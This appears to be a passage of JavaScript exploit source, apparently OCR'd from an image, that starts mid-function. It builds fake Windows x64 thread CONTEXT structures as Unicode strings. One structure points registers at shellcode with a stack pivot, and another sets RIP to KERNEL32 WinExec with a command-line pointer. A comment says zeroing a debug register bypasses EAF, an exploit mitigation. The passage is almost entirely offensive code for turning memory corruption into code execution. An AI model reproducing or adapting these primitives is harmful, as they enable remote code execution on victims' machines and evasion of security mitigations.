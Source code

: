         "\u0000\u0000\u0000\u0000" + // Dr1
        "\u0000\u0000\u0000\u0000" + // Dr2
        "\u0000\u0000\u0000\u0000" + // Dr3
        "\u0000\u0000\u0000\u0000" + // Dr6
        "\u0000\u0000\u0000\u0000" + // Dr7
        "\u0000\u0000\u0000\u0000" + // Rax
        QwordToUnicode(ShellcodeAddress) + // Rcx
        QwordToUnicode(ShellcodeSize) + // Rdx
        "\u0000\u0000\u0000\u0000" + // Rbx
        QwordToUnicode(NewRSP) + // Rsp
        "\u0000\u0000\u0000\u0000" + // Rbp
        "\u0000\u0000\u0000\u0000" + // Rsi
        "\u0000\u0000\u0000\u0000" + // Rdi
        "\u0040\u0000\u0000\u0000" + // R8
        QwordToUnicode(WritableAddress) + // R9
        "\u0000\u0000\u0000\u0000" + // R10
        QwordToUnicode(ArtificialStackAddress) + // R11
        "\u0000\u0000\u0000\u0000" + // R12
        "\u0000\u0000\u0000\u0000" + // R13
        "\u0000\u0000\u0000\u0000" + // R14
        "\u0000\u0000\u0000\u0000" + // R15
        QwordToUnicode(StackPivotAddress); // RIP
    }

    function MakeContextWinExec64(CommandLineAddress, StackPtr, WinExecAddress) {
        return "\u0000\u0000\u0000\u0000" + // P3Home
        "\u0000\u0000\u0000\u0000" + // P4Home
        "\u0000\u0000\u0000\u0000" + // P5Home
        "\u0000\u0000\u0000\u0000" + // P6Home
        "\u0003\u0010" + // ContextFlags
        "\u0000\u0000" + // MxCsr
        "\u0033" + // SegCs
        "\u0000" + // SegDs
        "\u0000" + // SegEs
        "\u0000" + // SegFs
        "\u0000" + // SegGs
        "\u002b" + // SegSs
        "\u0246\u0000" + // EFlags
        "\u0000\u0000\u0000\u0000" + // Dr0 - Prevents EAF too!
        "\u0000\u0000\u0000\u0000" + // Dr1
        "\u0000\u0000\u0000\u0000" + // Dr2
        "\u0000\u0000\u0000\u0000" + // Dr3
        "\u0000\u0000\u0000\u0000" + // Dr6
        "\u0000\u0000\u0000\u0000" + // Dr7
        "\u0000\u0000\u0000\u0000" + // Rax
        QwordToUnicode(CommandLineAddress) + // Rcx - Command pointer
        "\u0005\u0000\u0000\u0000" + // Rdx - SW_SHOW
        "\u0000\u0000\u0000\u0000" + // Rbx
        QwordToUnicode(StackPtr) + // Rsp
        "\u0000\u0000\u0000\u0000" + // Rbp
        "\u0000\u0000\u0000\u0000" + // Rsi
        "\u0000\u0000\u0000\u0000" + // Rdi
        "\u0000\u0000\u0000\u0000" + // R8
        "\u0000\u0000\u0000\u0000" + // R9
        "\u0000\u0000\u0000\u0000" + // R10
        "\u0000\u0000\u0000\u0000" + // R11
        "\u0000\u0000\u0000\u0000" + // R12
        "\u0000\u0000\u0000\u0000" + // R13
        "\u0000\u0000\u0000\u0000" + // R14
        "\u0000\u0000\u0000\u0000" + // R15
        QwordToUnicode(WinExecAddress); // RIP - KERNEL32.DLL!WinExec
    }

